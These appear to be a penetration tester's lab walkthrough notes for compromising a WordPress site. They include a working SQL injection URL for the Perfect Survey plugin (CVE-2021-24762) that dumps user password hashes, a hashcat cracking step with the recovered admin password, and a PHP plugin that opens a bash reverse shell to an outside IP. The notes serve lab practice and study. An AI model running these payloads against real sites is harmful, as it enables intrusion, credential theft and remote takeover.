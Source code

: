 - Browsing to site turns up site hxxp://alvida-eatery.org/ which only displays malware/ phishing page.
- **[Virtual hosting](https://www.youtube.com/watch?v=NMGsnPSm8iw&t=120s) is in play here** Fix by adding to **/etc/hosts**
```bash
sudo vim /etc/hosts
	#add
	192.168.221.47  alvida-eatery.org
```

- Wappalyzer shows use of WordPress
- Search for vuln plugins/ admin consoles (lots of results w/ API)
```bash
wpscan --url alvida-eatery.org --enumerate p --api-token <token> > wpscn
	[+] Upload directory has listing enabled: http://alvida-eatery.org/wp-content/uploads/
	...
	[+] perfect-survey
	 | Location: http://alvida-eatery.org/wp-content/plugins/perfect-survey/
	 | [!] Title: Perfect Survey < 1.5.2 - Unauthenticated SQL Injection
	 |     Fixed in: 1.5.2
	 |     References:
	 |      - https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad
	 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24762
	 ...
```

- Use POC in wpscan.com site shown in results, OR search for CVE in ExploitDB  https://www.exploit-db.com/exploits/50766
```bash
# POC
http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users
```

- JSON file will come back w/in the browser.   Search for $  and save hash in file
```bash
vim pw
	# Insert
	$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0
```

- Run [hashcat](Tools.md#hashcat)
```bash
hashcat -m 400 -a 0 -O pw /usr/share/wordlists/rockyou.txt
	$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0:hulabaloo
```

- Navigate to hxxp://alvida-eatery.org/wp-admin and login w/ **admin:hulabaloo** creds.
- Goto Plugins
- Craft reverse shell plugin
```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

# Edit IP and port below to match nc listener on local
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/4444 0>&1'");
?>
```
- Zip & start nc listener